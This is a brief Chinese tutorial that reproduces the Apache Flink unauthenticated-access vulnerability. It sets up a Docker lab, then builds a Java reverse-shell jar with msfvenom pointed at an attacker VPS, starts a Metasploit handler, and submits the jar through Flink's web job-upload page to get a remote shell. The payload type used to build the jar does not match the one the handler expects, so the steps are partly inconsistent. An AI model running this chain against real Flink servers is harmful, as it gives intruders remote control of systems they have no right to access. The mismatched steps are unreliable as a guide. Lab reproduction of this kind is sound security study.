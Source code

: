 
# Apache-Flink未授权访问漏洞

环境搭建：

docker pull scxiaotan2/flink3.1.2:weishouquan   #拉取镜像

docker run -it  scxiaotan2/flink3.1.2:weishouquan  /bin/bash       #启动shell

./start.sh     #启动根目录下的服务

netstat -tlnp      #可以看到8081端口启用了

ifconfig      #查看当前IP地址 比如地址为172.17.0.2  可以访问http://172.17.0.2:8081


# Apache-Flink漏洞复现

Kali linux 下运行msf

生成payload

msfvenom -p java/shell_reverse_tcp LHOST=VPS LHOST LPORT=VPS LPORT -f jar >test.jar

监听端口

msfconsole 

>use exploits/multi/handler

>set PAYLOAD java/meterpreter/reverse_tcp

>set LHOST  192.168.0.4  # 执行ifconfig  查看当前ip是多少这里就写多少

>exploit -j

# 上传文件

访问docker 下flink 环境

http://172.17.0.2:8081

点击 Submit New Job --> Add New-->选择刚刚生成的jar包-->上传成功后点击Submit  即可在msf下反弹一个shell
